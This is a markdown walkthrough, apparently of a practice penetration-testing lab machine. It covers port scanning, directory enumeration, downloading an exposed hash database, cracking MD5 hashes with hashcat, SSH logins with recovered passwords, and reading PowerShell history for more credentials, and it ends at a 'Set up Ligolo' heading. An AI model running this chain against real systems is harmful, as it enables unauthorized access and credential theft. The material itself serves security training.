


# Nmap

```bash
nmap -A -T4 -p 22,135,139,445,5985,8000 192.168.165.153

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|7|2008|8.1 (98%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (98%), Microsoft Windows 10 1709 - 21H2 (92%), Microsoft Windows 10 1909 (92%), Microsoft Windows 10 20H2 - 21H1 (90%), Microsoft Windows 10 21H2 (90%), Microsoft Windows Server 2019 (90%), Microsoft Windows 10 20H2 (90%), Microsoft Windows 10 1903 - 21H1 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (88%), Microsoft Windows 10 1803 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-02T12:53:00
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   98.29 ms 192.168.45.1
2   98.21 ms 192.168.45.254
3   98.40 ms 192.168.251.1
4   98.56 ms 192.168.165.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.82 seconds

```

## Directory Enumeration

```bash
feroxbuster -u http://192.168.165.153:8000 -s 200 -t 200

#Results
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      359l     2112w   178556c http://192.168.165.153:8000/iisstart.png
200      GET       32l       54w      696c http://192.168.165.153:8000/
200      GET        7l       31w    16384c http://192.168.165.153:8000/partner/db
200      GET        7l       38w    16406c http://192.168.165.153:8000/partner/DB
200      GET        1l        6w       37c http://192.168.165.153:8000/partner/CHANGELOG
200      GET        7l       38w    16406c http://192.168.165.153:8000/Partner/db
200      GET        7l       31w    16384c http://192.168.165.153:8000/Partner/DB
200      GET        1l        6w       37c http://192.168.165.153:8000/Partner/CHANGELOG
200      GET        1l        6w       37c http://192.168.165.153:8000/partner/changelog
200      GET        1l        6w       37c http://192.168.165.153:8000/Partner/changelog
```

## Download and Inspect db file

```bash
wget http://192.168.165.153:8000/partner/db 

#Found possible usernames and salted passwords
1	ecorp	7007296521223107d3445ea0db5a04f9	-
2	support	26231162520c611ccabfb18b5ae4dff2	support account for internal use
3	bcorp	e7966b31d1cad8a83f12ecec236c384c	-
4	acorp	df5fb539ff32f7fde5f3c05d8c8c1a6e	-

```


## SSH in as Eric

```bash
ssh Eric.Wallows@192.168.165.153
# Password
EricLikesRunning800
```

## Enumerate
```bash
# User enumeration
net user
# User Mary.Williams found

# Privs
whoami /priv

#PRIVILEGES INFORMATION                                                    
----------------------                                                    
                                                                          
Privilege Name                Description                          State  
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

# Files
PS C:\Users\eric.wallows> ls                                              


    Directory: C:\Users\eric.wallows


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         12/7/2019   1:14 AM                Desktop
d-r---          2/3/2025   1:14 PM                Documents
d-r---         12/7/2019   1:14 AM                Downloads
d-r---         12/7/2019   1:14 AM                Favorites
d-r---         12/7/2019   1:14 AM                Links
d-r---         12/7/2019   1:14 AM                Music
d-r---         12/7/2019   1:14 AM                Pictures
d-----         12/7/2019   1:14 AM                Saved Games
d-r---         12/7/2019   1:14 AM                Videos
-a----        11/21/2022   4:49 AM        6102702 admintool.exe

```

## Admintool.exe

```bash
.\admintool.exe 

#Results
error: The following required arguments were not provided:
    <CMD>                                                 
                                                          
USAGE:                                                    
    admintool.exe <CMD>    

# 2nd Attempt
.\admintool.exe whoami

 left: `"21232f297a57a5a743894a0e4a801fc3"`,
 right: `"05f8ba9f047f799adbea95a16de2ef5d"`: Wrong administrator password!', src/main.rs:78:5
```


## Crack collected hashes

```bash
nano db_hashes

# Paste hashes

# Run hashcat
hashcat -m 0 db_hashes /usr/share/wordlists/rockyou.txt -o cracked_hashes.txt

# Cracked hashes
cat cracked_hashes.txt 
21232f297a57a5a743894a0e4a801fc3:admin
26231162520c611ccabfb18b5ae4dff2:Freedom1
05f8ba9f047f799adbea95a16de2ef5d:December31

# Run Admintool.exe again
.\admintool.exe whoami
Enter administrator password:
December31
Executing command whoami as administrator
```

## Log in SSH as Administrator

```bash
ssh administrator@192.168.165.153
#December31

#Success
```

## Enumerate

```bash
PS C:\Users\Administrator\Desktop> (Get-PSReadlineOption).HistorySavePath

#Results
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

#Then
PS C:\Users\Administrator\Desktop> type 

#Results
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
C:\users\support\admintool.exe hghgib6vHT3bVWf cmd                                                                                            
C:\users\support\admintool.exe cmd                                                                         
shutdown /r /t 7                                                           
```

## Set up Ligolo

